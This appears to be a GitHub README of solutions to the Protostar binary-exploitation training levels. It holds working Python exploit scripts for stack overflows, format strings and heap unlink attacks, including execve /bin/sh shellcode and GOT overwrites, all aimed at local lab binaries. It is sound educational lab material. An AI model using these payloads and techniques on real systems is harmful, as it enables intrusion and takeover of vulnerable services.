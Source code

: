 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [x] heap2
```
exploiting use-after-free bug
```
- [x] heap3
```
need to create a fake chunk and unlink it explictly
then forward & backward pointer is abused to write change the PLT

hence executing the winner function
```

## Network

- [x] net0
```
echo -ne "`cat -`" | nc 127.0.0.1 2999

to enter the little endian string
```
- [x] net1
- [x] net2

## Final
- [x] final0
```
import struct
import socket
import telnetlib

HOST='127.0.0.1'
PORT=2995

padding = "A"*500+"\x00"+"aaaabbbbccccddddeeeeffffgggghhh"
execv = struct.pack("I",0x08048c0c)
execv_ret = "AAAA"
execv_param =  struct.pack("I",1176511+0xb7e97000)#bin/sh address

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))


exploit = padding+execv+execv_ret+execv_param+"\x00"*8

s.send(exploit+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
- [x] final1
```
import struct
import socket
import telnetlib

HOST='127.0.0.1'
PORT=2994


def read_until(check):
    buffer=''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer


s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))

# GOT -> 0x804a1b4
# system offset -> 0xb7ecffb0

strcmp = struct.pack("I",0x804a1a8)
strcmp2 = struct.pack("I",0x804a1a8+2)
ip,port = s.getsockname()

hostname = ip+":"+str(port)
padding_a = "A"*(24-len(hostname))

username = padding_a+'BBBB'+strcmp+'DDDD'+strcmp2+'%17$65399x %18$08n %19$47162x %20$08n'
#username = padding_a + 'BBBB' + strcmp + '%17$65407x %18$08nAA' + strcmp2 + '%22$47157x %24$04n'

password="CCCC"

print read_until("[final1] $ ")
raw_input('Waiting for input..')
s.send("username "+username+"\n")
print read_until("[final1] $ ")
s.send("login "+password+"\n")
print read_until("[final1] $ ")
raw_input('Waiting for input..')

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
- [x] final2
```
import struct
import socket
import telnetlib

REQUZ=128

HOST="127.0.0.1"
PORT=2993

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))

def padding(msg):
    pad = '\x00'*(REQUZ-len(msg))
    _msg = "FSRD"+msg+pad
    return _msg[:REQUZ]

malloc_vudoo=struct.pack("I",0xfffffffc)
fake_chunk = malloc_vudoo+malloc_vudoo
fake_chunk += struct.pack("I",0x804d41c-0xc) # GOT of write
fake_chunk += struct.pack("I",0x804e020) # Address of heap

#shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
#shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x68\x64\x21\x21\x21\x68\x4f\x77\x6e\x65\x89\xe1\xb2\x08\xcd\x80\xb0\x01\x31\xdb\xcd\x80"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

short_jump_10 = "\xeb\x0e"

#s.send(padding("/ROOT///"+"/"*12+short_jump_10+"AABBBBCCCCDDDD"+"\xCC"*12+"/"*128))
s.send(padding("/ROOT///"+"/"*12+short_jump_10+"AABBBBCCCCDDDD"+shellcode+"/"*128))
s.send(padding("ROOT/"+fake_chunk))

while True:
    msg = raw_input("> ")
    if msg:
        print("MSG: "+repr(padding(msg)))
        s.send(padding(msg))
    else:
        break

s.send("id")
print s.recv(1024)
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget

